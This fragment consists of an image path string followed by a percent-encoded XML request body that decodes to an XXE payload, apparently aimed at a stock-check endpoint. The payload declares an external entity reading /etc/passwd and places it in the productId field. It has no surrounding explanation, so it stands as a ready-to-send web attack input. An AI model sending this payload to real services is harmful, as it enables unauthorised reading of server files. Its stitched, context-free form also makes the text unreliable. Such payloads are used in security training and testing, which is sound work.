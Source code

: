 %3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%20%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%20%5D%3E%20%3C%73%74%6F%63%6B%43%68%65%63%6B%3E%3C%70%72%6F%64%75%63%74%49%64%3E%26%78%78%65%3B%3C%2F%70%72%6F%64%75%63%74%49%64%3E%3C%2F%73%74%6F%63%6B%43%68%65%63%6B%3E
